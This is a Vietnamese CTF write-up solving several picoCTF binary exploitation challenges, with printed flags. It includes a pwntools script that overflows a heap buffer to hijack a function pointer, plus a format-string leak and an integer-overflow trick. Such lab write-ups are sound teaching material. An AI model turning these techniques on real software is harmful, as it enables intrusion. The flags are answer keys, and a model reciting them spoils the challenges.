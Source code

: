 # heap 1
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/439?category=6&difficulty=2&page=1)
## Solution
- Bài này giống bài [heap 0](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/easy/writeup.md), tuy nhiên có sự khác biệt ở chỗ biến `safe_var` phải là chuỗi `pico` thì ta mới thu được flag
- Thực hiện `nc tethys.picoctf.net 55200`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-1.png)
## Flag
```picoCTF{starting_to_get_the_hang_9e9243f9}```
# heap 2
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/435?category=6&difficulty=2&page=1)
## Solution
- Đọc hàm `main` của file `chall.c`, ta vẫn thấy motip giống nhau đều là nhập `buffer` để làm tràn số, tuy nhiên bài này khó ở chỗ là chúng ta phải hiểu hàm `check_win`
```C
void check_win() { ((void (*)())*(int*)x)(); }
```
- Search chatgpt, tôi biết được rằng hàm này cho phép thực thi hàm `win` thông qua địa chỉ được lưu trong `x` hay nói cách khác `x` chính là địa chỉ của hàm `win`
-> Chúng ta phải đi tìm địa chỉ hàm `win`
- Sử dụng câu lệnh `objdump -D chall | grep win` ta thu được địa chỉ hàm win là `00000000004011a0`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-2.png)
- Chúng ta phải chuyển địa chỉ hàm `win` sang `little-endian` để tiến hành viết payload. Lý do phải chuyển sang `little-endian` là vì:
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-3.png)
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-4.png)
- Viết payload để lấy flag:
```Python
from pwn import *

p = remote("mimas.picoctf.net", 51605)

payload = b'2'
p.sendlineafter(b"Enter your choice: ", payload)
payload = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xa0\x11\x40\x00\x00\x00\x00\x00'
p.sendlineafter(b"Data for buffer: ", payload)
payload = b'4'
p.sendlineafter(b"Enter your choice: ", payload)

p.interactive()
```
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-5.png)
## Flag
```picoCTF{and_down_the_road_we_go_91218226}```
# format string 1
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/434?category=6&difficulty=2&page=1)
## Solution
- Đọc qua file code `chall.c`, ta thấy bug ở dòng 36
```C
printf(buf);
```
- Đây là lỗ hổng `format string` khi in `buf` không đúng định dạng, dẫn tới việc có thể khai thác lỗ hổng thông qua dòng code đó
- Tiến hành `netcat` tới server, ta thu được chuỗi `hex`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-6.png)
- Lấy đoạn `hex` sau `(nil)`, tiến hành loại bỏ những đoạn `hex` không có ý nghĩa và viết code thu được flag
```Python
hex = ["7b4654436f636970",
       "355f31346d316e34",
       "3478345f33317937",
       "35365f673431665f",
       "7d313464303935",]
print((bytes.fromhex(hex[0])[::-1] +
       bytes.fromhex(hex[1])[::-1] +
       bytes.fromhex(hex[2])[::-1] +
       bytes.fromhex(hex[3])[::-1] +
       bytes.fromhex(hex[4])[::-1]).decode())
```
## Flag
```picoCTF{4n1m41_57y13_4x4_f14g_65590d41}```
# two-sum
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/382?category=6&difficulty=2&page=1)
## Solution
- Đọc file code `flag.c`, ta thấy rằng để truy cập vào file `flag.txt` ta phải nhập 1 trong 2 số `num1` hoặc `num2` lớn hơn 0 và phải thỏa mãn tổng 2 số phải nhỏ hơn 0
- Nhận thấy `num1` và `num2` là kiểu dữ liệu `int` nên chúng ta có thể khai thác lỗ hổng tràn số thông qua kiểu dữ liệu
- Tiến hành `netcat` tới server, ta thu được flag
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-7.png)
## Flag
```picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_ccd078bd}```
# Picker IV
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/403?category=6&difficulty=2&page=1)
## Solution
- Để lấy được flag, ta phải tìm địa chỉ hàm `win` và nhập địa chỉ vào biến `val`
```C
printf("Enter the address in hex to jump to, excluding '0x': ");
scanf("%x", &val);
printf("You input 0x%x\n", val);
void (*foo)(void) = (void (*)())val;
foo();
```
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-8.png)
## Flag
```picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_01672a61}```
# buffer overflow 0
## Challenge
[link challenge]()
## Solution
- Ta thấy biến `buf1` có kích thước tối đa là 100 nên ta sẽ nhập 101 kí tự để xảy ra hiện tượng `SIGSEGV`, từ đó hàm `sigsegv_handler` được thực hiện
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-9.png)
## Flag
```picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}```
